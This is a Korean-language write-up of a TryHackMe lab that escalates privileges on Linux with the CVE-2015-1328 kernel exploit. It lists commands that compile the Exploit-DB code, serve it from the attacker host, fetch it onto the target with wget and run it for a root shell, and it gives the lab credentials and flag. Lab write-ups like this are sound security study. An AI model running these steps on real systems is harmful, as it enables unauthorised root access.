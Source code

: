 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

## 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](/screenshots/ssh_connect.png)

## 2.2 **커널 버전 확인**

- 커널 버전 확인→ uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](/screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

## 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](/screenshots/start_ssh.png)


## 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](/screenshots/window_scp.png)


## 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](/screenshots/compile.PNG)

## 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](/screenshots/http_server_wget.PNG)

## 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](/screenshots/exploit_flag.PNG)


### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`



